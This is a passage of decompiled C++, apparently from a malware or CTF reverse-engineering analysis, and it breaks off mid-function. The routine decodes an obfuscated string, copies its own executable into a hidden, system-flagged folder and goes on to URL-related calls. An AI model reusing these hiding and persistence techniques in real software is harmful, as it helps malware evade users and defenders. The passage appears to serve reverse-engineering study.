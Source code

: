 ```cpp=
{
  PWSTR ppszPathOut; // [rsp+38h] [rbp-38h] BYREF
  int char_1; // [rsp+44h] [rbp-2Ch]
  PWSTR ppszPath; // [rsp+48h] [rbp-28h] BYREF
  LPWSTR lpFilename; // [rsp+50h] [rbp-20h]
  LPWSTR lpWideCharStr; // [rsp+58h] [rbp-18h]
  int cchWideChar; // [rsp+64h] [rbp-Ch]
  int j; // [rsp+68h] [rbp-8h]
  int i; // [rsp+6Ch] [rbp-4h]

  if ( SHGetKnownFolderPath((const KNOWNFOLDERID *const)&unk_14000AA80, KF_FLAG_DEFAULT, 0i64, &ppszPath) )
    return 0i64;
  for ( i = 7; i <= 22; i += 4 )
  {
    char_1 = *(_DWORD *)((char *)szUrl + i);
    for ( j = 0; j <= 3; ++j )
    {
      LOBYTE(char_1) = char_1 - 43;
      char_1 = __ROR4__(char_1, 8);
    }
    char_1 ^= 0x6F6F6F6Fu;
    *(_DWORD *)((char *)szUrl + i) = char_1;
  }
  HIBYTE(szUrl[2]) = 0;
  cchWideChar = MultiByteToWideChar(CP_UTF8, 0, (LPCCH)szUrl + 7, -1, 0i64, 0);
  if ( !cchWideChar )
    return 0i64;
  lpWideCharStr = (LPWSTR)malloc(2i64 * cchWideChar);
  if ( !lpWideCharStr )
    return 0i64;
  MultiByteToWideChar(CP_UTF8, 0, (LPCCH)szUrl + 7, -1, lpWideCharStr, cchWideChar);
  if ( PathAllocCombine(ppszPath, lpWideCharStr, PATHCCH_NONE, &ppszPathOut) )
  {
    free(lpWideCharStr);
    return 0i64;
  }
  else
  {
    CreateDirectoryW(ppszPathOut, 0i64);
    SetFileAttributesW(ppszPathOut, 0x26u);     // FILE_ATTRIBUTE_ARCHIVE + FILE_ATTRIBUTE_SYSTEM + FILE_ATTRIBUTE_HIDDEN
    lpFilename = (LPWSTR)malloc(0x208ui64);
    GetModuleFileNameW(0i64, lpFilename, 0x104u);
    if ( PathAllocCombine(ppszPathOut, lpWideCharStr, 0, &ppszPathOut) )
    {
      free(lpWideCharStr);
      free(lpFilename);
      return 0i64;
    }
    else if ( MoveFileW(lpFilename, ppszPathOut) )
    {
      SetFileAttributesW(ppszPathOut, 0x26u);   // FILE_ATTRIBUTE_ARCHIVE + FILE_ATTRIBUTE_SYSTEM + FILE_ATTRIBUTE_HIDDEN
      free(lpWideCharStr);
      free(lpFilename);
      return Reverse_URL_Part2(ppszPathOut);
    }
    else
    {
      free(lpWideCharStr);
      free(lpFilename);
      ImportatntPart();
```